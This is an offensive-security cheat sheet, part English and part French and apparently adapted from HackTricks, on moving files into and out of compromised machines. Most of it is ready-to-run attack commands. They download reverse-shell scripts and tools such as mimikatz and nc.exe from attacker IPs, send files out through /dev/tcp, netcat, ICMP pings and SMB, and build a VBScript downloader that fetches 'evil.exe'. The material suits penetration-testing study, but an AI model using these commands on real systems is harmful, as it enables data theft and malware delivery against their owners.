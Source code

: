 ============
EXFILTRATION
============

**Source** : https://book.hacktricks.xyz/exfiltration

Copy&Paste Base64
=================

-----
Linux
-----

.. code-block:: bash
  :linenos:

  base64 -w0 <file> #Encode file
  base64 -d file #Decode file

-------
Windows
-------
.. code-block:: bash
  :linenos:

  certutil -encode payload.dll payload.b64
  certutil -decode payload.b64 payload.dll

HTTP
====

-----
Linux
-----
.. code-block:: bash
  :linenos:

  wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
  wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
  curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
  fetch 10.10.14.14:8000/shell.py #FreeBSD

-------
Windows
-------
.. code-block:: bash
  :linenos:

  certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
  bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf
  ​
  #PS
  (New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
  Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
  wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
  ​
  Import-Module BitsTransfer
  Start-BitsTransfer -Source $url -Destination $output
  #OR
  Start-BitsTransfer -Source $url -Destination $output -Asynchronous

------------
Upload files
------------

**Lien :** https://gist.github.com/UniIsland/3346170
​

------------
HTTPS Server
------------

.. code-block:: bash
  :linenos:

  # from https://gist.github.com/dergachev/7028596
  # taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
  # generate server.xml with the following command:
  #    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
  # run as follows:
  #    python simple-https-server.py
  # then in your browser, visit:
  #    https://localhost:443
  ​
  import BaseHTTPServer, SimpleHTTPServer
  import ssl
  ​
  httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
  httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
  httpd.serve_forever()

FTP
===

-------------------
FTP server (python)
-------------------

.. code-block:: bash
  :linenos:

  pip3 install pyftpdlib
  python3 -m pyftpdlib -p 21

-------------------
FTP server (NodeJS)
-------------------

.. code-block:: bash
  :linenos:

  sudo npm install -g ftp-srv --save
  ftp-srv ftp://0.0.0.0:9876 --root /tmp

---------------------
FTP server (pure-ftp)
---------------------

``apt-get update && apt-get install pure-ftp``

.. code-block:: bash
  :linenos:

  #Run the following script to configure the FTP server
  #!/bin/bash
  groupadd ftpgroup
  useradd -g ftpgroup -d /dev/null -s /etc ftpuser
  pure-pwd useradd fusr -u ftpuser -d /ftphome
  pure-pw mkdb
  cd /etc/pure-ftpd/auth/
  ln -s ../conf/PureDB 60pdb
  mkdir -p /ftphome
  chown -R ftpuser:ftpgroup /ftphome/
  /etc/init.d/pure-ftpd restart

--------------
Windows client
--------------

.. code-block:: bash
  :linenos:

  #Work well with python. With pure-ftp use fusr:ftp
  echo open 10.11.0.41 21 > ftp.txt
  echo USER anonymous >> ftp.txt
  echo anonymous >> ftp.txt
  echo bin >> ftp.txt
  echo GET mimikatz.exe >> ftp.txt
  echo bye >> ftp.txt
  ftp -n -v -s:ftp.txt

SMB
===

Kali as server

.. code-block:: bash
  :linenos:

  kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
  kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
  #For new Win10 versions
  impacket-smbserver -smb2support -user test -password test test `pwd`

Or create a **smb** share using samba:

.. code-block:: bash
  :linenos:

  apt-get install samba
  mkdir /tmp/smb
  chmod 777 /tmp/smb
  #Add to the end of /etc/samba/smb.conf this:
  [public]
      comment = Samba on Ubuntu
      path = /tmp/smb
      read only = no
      browsable = yes
      guest ok = Yes
  #Start samba
  service smbd restart

Windows

.. code-block:: bash
  :linenos:

  CMD-Wind> \\10.10.14.14\path\to\exe
  CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

.. code-block:: bash
  :linenos:

  WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
  WindPS-2> cd new_disk:

SCP
===

The attacker has to have SSHd running.

``scp <username>@<Attacker_IP>:<directory>/<filename>`` 

NC
===

.. code-block:: bash
  :linenos:

  nc -lvnp 4444 > new_file
  nc -vn <IP> 4444 < exfil_file


/dev/tcp
========

-------------------------
Download file from victim
-------------------------

.. code-block:: bash
  :linenos:

  nc -lvnp 80 > file #Inside attacker
  cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim

---------------------
Upload file to victim
---------------------

.. code-block:: bash
  :linenos:

  nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
  # Inside victim
  exec 6< /dev/tcp/10.10.10.10/4444
  cat <&6 > file.txt

Merci à **@BinaryShadow_**

ICMP
====

.. code-block:: bash
  :linenos:

  #In order to exfiltrate the content of a file via pings you can do:
  xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
  #This will 4bytes per ping packet (you could probably increase this until 16)

.. code-block:: bash
  :linenos:

  from scapy.all import *
  #This is ippsec receiver created in the HTB machine Mischief
  def process_packet(pkt):
      if pkt.haslayer(ICMP):
          if pkt[ICMP].type == 0:
              data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
              print(f"{data.decode('utf-8')}", flush=True, end="")
  ​
  sniff(iface="tun0", prn=process_packet)

SMTP
====

Si vous pouvez envoyer des données à un serveur SMTP, vous pouvez créer un SMTP pour recevoir les données avec python:

``sudo python -m smtpd -n -c DebuggingServer :25``

TFTP
=====
.. note:: Par défaut dans XP et 2003 (dans d'autres, il doit être explicitement ajouté lors de l'installation).

Dans Kali, démarrez le serveur TFTP :

.. code-block:: bash
  :linenos:

  #I didn't get this options working and I prefer the python option
  mkdir /tftp
  atftpd --daemon --port 69 /tftp
  cp /path/tp/nc.exe /tftp
  TFTP server in python:
  pip install ptftpd
  ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
  In victim, connect to the Kali server:
  tftp -i <KALI-IP> get nc.exe

PHP
===
Téléchargez un fichier avec un oneliner PHP :

``echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php``

VBScript
========

``Attacker> python -m SimpleHTTPServer 80``

**Victim**

.. code-block:: bash
  :linenos:

  echo strUrl = WScript.Arguments.Item(0) > wget.vbs
  echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
  echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
  echo Err.Clear >> wget.vbs
  echo Set http = Nothing >> wget.vbs
  echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
  echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
  echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
  echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
  echo http.Open "GET", strURL, False >> wget.vbs
  echo http.Send >> wget.vbs
  echo varByteArray = http.ResponseBody >> wget.vbs
  echo Set http = Nothing >> wget.vbs
  echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
  echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
  echo strData = "" >> wget.vbs
  echo strBuffer = "" >> wget.vbs
  echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
  echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
  echo Next >> wget.vbs
  echo ts.Close >> wget.vbs

``cscript wget.vbs http://10.11.0.5/evil.exe evil.exe``

Debug.exe
=========

.. note::  C'est une technique folle qui fonctionne sur les machines Windows 32 bits. Fondamentalement, l'idée est d'utiliser le programme debug.exe. Il est utilisé pour inspecter les binaires, comme un débogueur. Mais il peut aussi les reconstruire à partir des hex. Donc, l'idée est que nous prenons un binaire, comme netcat.Et puis désassemblez-le en hexadécimaux, collez-le dans un fichier sur la machine compromise, puis assemblez-le avec debug.exe. Déboguer.exe ne peut assembler que 64 Ko. Nous devons donc utiliser des fichiers plus petits que cela. Nous pouvons utiliser upx pour le compresser encore plus. 
 
Alors faisons-le :

``upx -9 nc.exe``

Maintenant, il ne pèse que 29 kb. Parfait. Alors maintenant, démontons-le:

``wine exe2bat.exe nc.exe nc.txt``

Maintenant, nous ne faisons que copier-coller le texte dans notre shell Windows. Et il créera automatiquement un fichier appelé nc.exe

DNS
===

https://github.com/62726164/dns-exfil